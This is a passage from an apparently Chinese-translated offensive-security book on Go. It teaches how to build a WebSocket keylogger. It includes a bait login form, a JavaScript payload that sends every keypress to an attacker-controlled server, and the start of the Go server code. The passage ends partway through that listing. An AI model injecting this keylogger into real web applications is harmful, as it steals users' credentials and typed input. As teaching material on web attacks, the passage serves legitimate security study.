 *WebSocket API (WebSockets)* 是一种全双工协议，近年来越来越受欢迎，许多浏览器现在都支持它。它提供了一种高效的方式，允许 web 应用程序服务器与客户端之间进行通信。最重要的是，它允许服务器在不需要轮询的情况下向客户端发送消息。

WebSocket 非常适合构建“实时”应用程序，如聊天和游戏，但你也可以将其用于恶意目的，例如将键盘记录器注入应用程序，捕获用户按下的每一个键。首先，假设你已识别出一个存在*跨站脚本*（即第三方可以在受害者浏览器中运行任意 JavaScript 的漏洞）漏洞的应用程序，或者你已经攻破了一个 web 服务器，可以修改应用程序的源代码。这两种情况都应该允许你包含一个远程 JavaScript 文件。接下来，你将构建服务器基础设施来处理来自客户端的 WebSocket 连接，并处理传入的按键信息。

为了演示，你将使用 JS Bin (*[`jsbin.com`](http://jsbin.com)*) 来测试你的有效载荷。JS Bin 是一个在线工具，开发者可以在其中测试他们的 HTML 和 JavaScript 代码。用浏览器打开 JS Bin，粘贴以下 HTML 到左侧的代码框中，完全替换默认代码：

```
<!DOCTYPE html>
<html>
<head>
  <title>Login</title>
</head>
<body>
 <script src='http://localhost:8080/k.js'></script>
  <form action='/login' method='post'>
    <input name='username'/>
    <input name='password'/>
    <input type="submit"/>   
  </form>
</body>
</html>
```

在屏幕右侧，你将看到渲染后的表单。如你所见，你已添加了一个 `script` 标签，并将 `src` 属性设置为 `http://localhost:8080/k.js`。这将是创建 WebSocket 连接并将用户输入发送到服务器的 JavaScript 代码。

你的服务器需要做两件事：处理 WebSocket 连接并提供 JavaScript 文件。首先，让我们把 JavaScript 的部分处理掉，因为毕竟本书是关于 Go 的，而不是 JavaScript。（可以查看 *[`github.com/gopherjs/gopherjs/`](https://github.com/gopherjs/gopherjs/)*，了解如何使用 Go 编写 JavaScript。）下面是 JavaScript 代码：

```
(function() {
    var conn = new WebSocket("ws://{{.}}/ws");
    document.onkeypress = keypress;
    function keypress(evt) {
        s = String.fromCharCode(evt.which);
        conn.send(s);
    }
})();
```

JavaScript 代码处理按键事件。每次按下一个键时，代码会通过 WebSocket 将按键发送到`ws://{{.}}/ws`上的资源。请回忆一下，`{{.}}`值是 Go 模板占位符，表示当前的上下文。这个资源代表一个 WebSocket URL，它会根据你传递给模板的字符串来填充服务器位置的信息。稍后我们会讲到。对于这个例子，你将把 JavaScript 保存到名为*logger.js*的文件中。

等等，你可能会说，我们之前说过我们是以*k.js*来提供服务的！我们之前展示的 HTML 也明确使用了*k.js*。怎么回事呢？其实，*logger.js*是一个 Go 模板，而不是一个实际的 JavaScript 文件。你将在路由器中使用*k.js*作为匹配模式。当匹配时，服务器将渲染存储在*logger.js*文件中的模板，并且会包含表示 WebSocket 连接的主机的上下文数据。你可以通过查看服务器代码来了解它是如何工作的，代码展示在清单 4-9 中。

```
import (
    "flag"
    "fmt"
    "html/template"
    "log"
    "net/http"

    "github.com/gorilla/mux"
 ❶ "github.com/gorilla/websocket"
)

var (
 ❷ upgrader = websocket.Upgrader{
        CheckOrigin: func(r *http.Request) bool { return true },
    }
```
